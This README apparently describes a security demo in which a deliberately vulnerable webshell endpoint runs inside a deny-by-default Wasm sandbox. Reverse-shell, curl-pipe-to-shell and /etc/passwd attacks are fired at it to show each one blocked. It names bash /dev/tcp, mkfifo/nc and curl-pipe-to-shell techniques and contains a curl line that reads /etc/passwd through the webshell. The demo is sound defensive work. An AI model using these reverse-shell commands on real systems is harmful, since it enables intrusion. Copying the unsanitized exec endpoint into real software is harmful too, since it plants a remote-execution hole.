

# Stopping a Webshell with a Sandbox: a live remote-shell demo



PersonFacts is a made-up company. Its web app hides a classic **webshell**: `/exec?cmd=…&arg=…`
hands whatever you send straight to `exec.Command`. In a container that is game over. This repo
runs that exact code, unpatched, inside a deny-by-default [Cosmonic](https://cosmonic.com/)
sandbox, and lets you fire real reverse-shell techniques at it. Every attack runs. None of them can
do anything.

> **You can't execute what you don't have.** A sandbox doesn't have to recognize the attack. It
> starts with nothing and hands the code only the capabilities you grant: here, inbound HTTP and
> nothing else. See [principles of secure agent platforms](https://cosmonic.com/ai-sandbox/principles/).

## The three building blocks

Almost every remote-shell technique combines: **(1)** an outbound network connection, **(2)**
binding that socket to stdin/stdout/stderr, and **(3)** spawning a shell. A detector watches for
any one of those in a context that shouldn't have it. A Wasm component was never given any of the
three.

| Button | Technique | What it attempts | In the sandbox |
|---|---|---|---|
| **Bash** | `/dev/tcp`, `mkfifo` + `nc` | `bash -i >& /dev/tcp/…/4444 0>&1`, a FIFO-fed netcat, a raw TCP dial, opening `/dev/tcp` | No bash, sh or nc to start; no `/dev`; no socket interface |
| **Python** | socket → `dup2` → `pty.spawn` | the canonical python3 one-liner, a raw TCP dial, opening `/dev/ptmx`, spawning `/bin/sh` | No interpreter; no pty; WASI has no fork, exec or dup2 |
| **Curl** | stage-and-run | `curl … \| sh`, `wget` to disk, a real fetch through the host, writing `/tmp/stage.sh`, executing it | `allowedHosts: []` so the host denies the fetch; no disk; nothing to exec with |
| **Run all** | all three | 13 attempts in one request | 13 of 13 blocked |

Each technique fires its real command line through the webshell's own `runCmd`, then attempts
every building block from inside the component, the way an attacker who owns the process would.
Nothing is simulated: every result is the runtime's own error. The attacker address,
`203.0.113.66`, is in TEST-NET-3 (RFC 5737) and is never routed.

## Quickstart (Cosmonic Desktop)

1. **Install [Cosmonic Desktop](https://cosmonic.com/desktop/).**
2. **Build and push** the component to Desktop's built-in registry. You need Go (see
   `cosmonic-app/go.mod`) and [`componentize-go`](https://github.com/bytecodealliance/componentize-go) `v0.3.4`:

   ```bash
   cd cosmonic-app
   componentize-go --world wasip2-example build -o webshell.wasm
   wash oci push --insecure oci.localhost:8200/apps/webshell-sandbox:0.1.4 webshell.wasm
   ```

3. **Apply** [`deploy/webshell-sandbox.local.workload.yaml`](deploy/webshell-sandbox.local.workload.yaml),
   for example by asking an assistant connected to Desktop's MCP server
   ([Connect coding agents](https://cosmonic.com/docs/desktop/coding-agents/)).
4. **Open <http://webshell-sandbox.localhost:8200/shell>** and press the red buttons.
   `/shell#all` fires every attack on load. PersonFacts itself is at `/`.

### From the command line

```bash
B=http://127.0.0.1:8200; H='Host: webshell-sandbox.localhost'

curl -s -H "$H" "$B/run?mode=all"              # bash | python | curl | all, as JSON
curl -s -H "$H" "$B/exec?cmd=cat&arg=/etc/passwd"
# exec: "cat": executable file not found in $PATH
```

A run of `mode=all` reports:

```
MITIGATED: 13 of 13 attempts failed. The webshell ran, but the sandbox has no shell to start,
no socket to open and no disk to stage on.
```

## Why each step fails

| Building block | Attempt | The runtime's answer | Why |
|---|---|---|---|
| spawn | `exec.Command("bash", …)` | `executable file not found in $PATH` | No filesystem, so no `$PATH`; WASI has no call that starts a process |
| spawn | `os.StartProcess("/bin/sh")` | `Not implemented on wasip1` | No fork, no exec |
| network | `net.Dial("tcp", …)` | `connect: Connection refused` | The component imports no `wasi:sockets`; Go answers from an in-memory stub and no packet leaves |
| network | HTTP GET via `wasi:http/outgoing-handler` | `HTTP-request-denied` | The workload grants `allowedHosts: []`; the host denies it before any connection |
| bind / stage | open `/dev/tcp/…`, `/dev/ptmx`, `/tmp/stage.sh` | `Bad file number` | No volume granted: there is no directory to resolve any path against |

The security policy is the workload manifest, and it is short because it grants almost nothing:
one inbound HTTP route, no volumes, no outbound hosts.

## Layout

```
cosmonic-app/                      the Go component (componentize-go, wasip2)
  export_wasi_http_incoming_handler/
    handler.go                     routes, and the webshell: exec.Command(cmd, args...)
    attacks.go                     /run: the three techniques and their building blocks
    static/                        PersonFacts site (/), the /shell demo page and hero
deploy/
  webshell-sandbox.local.workload.yaml   one workload, one component, no grants
docs/
  hero/                            hero source (HTML) and render.sh
  images/webshell-sandbox-rce-hero.png
simpleexec-personfacts/            the original PersonFacts webshell for containers
```

## License

Apache-2.0. See [LICENSE](LICENSE).
